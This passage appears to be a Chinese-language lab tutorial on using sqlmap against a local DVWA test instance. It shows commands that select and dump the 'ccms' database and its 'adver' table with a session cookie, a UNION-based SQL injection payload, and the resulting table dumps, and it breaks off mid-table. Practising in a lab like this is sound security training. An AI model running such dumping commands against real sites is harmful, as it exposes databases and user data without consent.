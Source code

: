 ```php
[11:34:56] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
[11:34:56] [INFO] fetching entries for table 'guestbook' in database 'dvwa'
[11:34:56] [INFO] analyzing table dump for possible password hashes
Database: dvwa
Table: guestbook
[1 entry]
+------------+------+-------------------------+
| comment_id | name | comment                 |
+------------+------+-------------------------+
| 1          | test | This is a test comment. |
+------------+------+-------------------------+

[11:34:56] [INFO] table 'dvwa.guestbook' dumped to CSV file 'C:\Users\cmk\.sqlmap\output\127.0.0.1\dump\dvwa\guestbook.csv'
[11:34:56] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'
```

## 选择指定的数据库并导出

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" -D ccms --dump
```

## 选择指定的表
```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" -D ccms --dump -T adver

//成功溢出如下

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:42:06

[11:42:06] [INFO] resuming back-end DBMS 'mysql'
[11:42:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:42:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:42:07] [INFO] fetching columns for table 'adver' in database 'ccms'
[11:42:07] [INFO] fetching entries for table 'adver' in database 'ccms'
[11:42:07] [INFO] analyzing table dump for possible password hashes
Database: ccms
Table: adver
[5 entries]
+----------+-------------+-------------+------+---------------+--------+---------+----------------------------------------+----------------------------------+------------+---------------------+---------------------+
| adver_id | language_id | category_id | sort | link          | status | remark  | thumb_pic                              | source_pic                       | adver_name | create_date         | update_date         |
```